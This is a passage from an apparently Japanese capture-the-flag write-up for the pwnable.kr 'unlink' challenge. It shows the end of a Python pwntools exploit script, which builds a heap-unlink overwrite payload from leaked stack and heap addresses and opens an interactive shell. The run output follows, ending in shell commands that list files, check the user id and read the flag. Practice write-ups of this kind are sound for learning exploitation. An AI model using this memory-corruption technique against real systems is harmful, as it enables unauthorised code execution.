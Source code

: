 ```python
argcaddr = pack("<I", stackaddr + 16)
bufaddr = pack("<I", heapaddr + 12)
shelladdr = pack("<I", 0x080484eb)
dummybyte = ("\x11" * 0xc).encode()

print("argc addr = " + hex(unpack(argcaddr)) )
print("dummy byte = " + dummybyte.decode() )
print("buffer addr" + hex(unpack(bufaddr)) )
print("shell func addr = " + hex(unpack(shelladdr)) )

conn.sendline(shelladdr + dummybyte + bufaddr + argcaddr)
conn.interactive()

```

実行結果は以下

```bash
$ python3 exploit.py
[+] Connecting to pwnable.kr on port 2222: Done
[+] Opening new channel: execve(b'/home/unlink/unlink', [b'/home/unlink/unlink'], os.environ): Done
here is stack address leak: 0xff98c194;here is heap address leak: 0x819c410;now that you have leaks, get shell!;
stack addr = 0xff98c194
heap addr = 0x819c410
argc addr = 0xff98c1a4
dummy byte = \x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11
buffer addr0x819c41c
shell func addr = 0x80484eb
[*] Switching to interactive mode
$ $ ls
flag  intended_solution.txt  unlink  unlink.c
$ $ id
uid=1094(unlink) gid=1094(unlink) egid=1095(unlink_pwn) groups=1095(unlink_pwn),1094(unlink)
$ $ cat flag
```
